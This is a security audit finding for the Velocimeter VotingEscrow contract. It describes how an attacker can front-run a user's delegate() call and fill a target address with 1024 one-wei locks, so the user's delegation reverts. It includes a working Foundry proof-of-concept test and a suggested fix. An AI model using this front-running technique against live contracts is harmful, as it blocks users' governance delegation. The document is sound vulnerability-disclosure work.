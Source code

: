 Wonderful Coconut Corgi

High

# Anyone can grief users `delegate()` transaction

## Summary
The `votingEscrow` contract contains a vulnerability that allows an attacker to prevent legitimate users from delegating their token locks. By front-running and exploiting the delegate function, an attacker can reach the maximum limit of delegates (ie. 1024) for a given address, causing subsequent legitimate delegate transactions to revert.

## Vulnerability Detail
- The `VotingEscrow` contract allows users to create token locks and delegate them to other addresses.
```solidity
function delegate(address delegatee) public {
    if (delegatee == address(0)) delegatee = msg.sender;
    return _delegate(msg.sender, delegatee);
}
```
-  However, the contract imposes a limit on the number of locks that can be delegated to a single address, defined by escrow.MAX_DELEGATES().

```solidity
require( dstRepOld.length + 1 <= MAX_DELEGATES, "dstRep would have too many tokenIds"  );
```
-  An attacker can exploit this by front-running a legitimate delegation transaction and creating multiple small token locks, delegating each to the same target address.
- Once the number of delegated locks reaches the MAX_DELEGATES limit, any subsequent attempts to delegate additional locks to the same address will revert with an error.
- Attacker steps :
	1.	Alice send a transactions to delegate significant token lock to Bob.
	2.	Charlie observes and front-runs Alice’s delegation transactions.
	3.	Charlie adds a transactions that creates 1024 small locks (1 wei each) and delegates them to Bob.
	4.	Bob reaches the maximum delegate limit (escrow.MAX_DELEGATES()).
	5.	Alice’s delegation transaction reverts due to the exceeded delegate limit.
- Refer POC for more detail.

- Note : This is different from the GAS_LIMIT issue (Optimism has limit 15M), even if that were fixed, this issue would still persist.

## Impact
- Malicious users can grief victims `delegate()` transactions.
- This can be exploited whenever there will be attempt to create consolidation of voting power on specific address.

## Code Snippet
- https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L1282-L1285
- https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L1398-L1401

## POC
- Place the test in the VotingEscrow.t.sol file of the test suite and run it using the command: "forge test --mt testMaxDelegateGrief -vvv"

```solidity
function testMaxDelegateGrief() public {

      //We have 
      address Alice   = address(this);
      address Bob     = address(0x123);
      address Charlie = address(0x234);

      //Alice creates a lock 
      flowDaiPair.approve(address(escrow), TOKEN_1);
      uint tokenId = escrow.create_lock(TOKEN_1, 1 weeks);

      //Now Alice wants to delegate this lock to Bob
          //escrow.delegate(Bob);

      //Before that Charlie fronts Alice transction and creates 1024 locks with one wei and 
      //delegates that to Bob

      for(uint256 i = 0; i < escrow.MAX_DELEGATES(); i++) {
          vm.roll(block.number + 1);
          vm.warp(block.timestamp + 1);
          flowDaiPair.transfer(Charlie, 1 wei);
          vm.startPrank(Charlie);
          flowDaiPair.approve(address(escrow), 1 wei);
          escrow.create_lock(1 wei, 1 weeks);
          escrow.delegate(Bob);
          vm.stopPrank();
         }

      //So now when Alices transaction is processed it will revert because of the limit of 1024 tokens.
      vm.expectRevert("dstRep would have too many tokenIds");
      escrow.delegate(Bob);

  }

```


## Tool used
Manual Review and Foundary

## Recommendation
- Put a limit on how many tokens a single user can delegate to specific address.
